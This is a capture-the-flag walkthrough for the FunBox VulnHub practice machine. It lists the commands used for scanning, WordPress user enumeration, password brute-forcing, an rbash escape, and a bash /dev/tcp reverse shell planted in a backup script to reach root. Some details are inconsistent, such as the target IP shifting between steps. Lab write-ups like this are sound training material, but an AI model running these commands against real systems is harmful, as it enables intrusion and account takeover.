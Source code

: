 FunBox VulnHub Walkthrough

FunBox is a beginner-friendly vulnerable machine that can be imported and run locally for penetration testing practice.

Download the machine (.ova file) here:
https://download.vulnhub.com/funbox/FunBox.ova

Step 1 — Finding the Target IP
Start by listing all active devices on your network:
sudo arp-scan -l
Look for MAC addresses starting with 08:00:27, which usually belong to VirtualBox machines. The last one in the list, 10.0.2.7, is the FunBox machine.

Step 2 — Reconnaissance
Scan the target machine using Nmap to detect open ports and running services:
nmap -sC -sV -Pn -T4 10.0.2.7
The scan shows the following:
Open ports: ftp(21), ssh(22), http(80)
HTTP site title: FunBox
WordPress version: 5.42
Open the target IP in a browser to explore the website.

Step 3 — Discover Hidden Directories
Run dirsearch to find directories that may contain sensitive information:
dirsearch -u http://10.0.2.7/
This reveals /secret, /robots.txt, and /wp-admin. Checking /secret and /robots.txt reveals nothing useful. The /wp-admin directory is a WordPress login page, which requires credentials.

Step 4 — Enumerate WordPress Users
Use wpscan to enumerate usernames:
wpscan --url http://funbox.fritz.box/ -e u
Two usernames are discovered: admin and joe.

Step 5 — Brute Force WordPress Password
Brute-force Joe’s password using:
wpscan --url http://funbox.fritz.box/-U joe -P /usr/share/wordlists/rockyou.txt
The password is found: 12345.

Step 6 — SSH Access
Use the credentials to log in via SSH:
ssh joe@10.0.2.10
This gives a stable shell, but Joe is in a restricted shell (rbash).

Step 7 — Bypass Restricted Shell
Reconnect to SSH with an unrestricted bash shell:
ssh joe@10.0.2.10 -t "bash --noprofile"

Step 8 — Prepare Reverse Shell
Navigate to /home/funny and find .backup.sh. Add the reverse shell payload:
bash -c 'exec bash -i &>/dev/tcp/10.0.2.4/9999 <&1'
Start a netcat listener on your local machine:
nc -lnvp 9999
Trigger the reverse shell:
bash .backup.sh

Step 9 — Gain Root Access
The reverse shell connects as root. Navigate to /root to retrieve the final flag, stored in the file named flag.

Step 10 — Summary
By following these steps, we were able to:

Identify the target FunBox IP
Perform service enumeration and web reconnaissance
Discover WordPress users and brute-force a password
Obtain SSH access and bypass restricted shell limitations
Execute a reverse shell to gain root privileges and retrieve the final flag
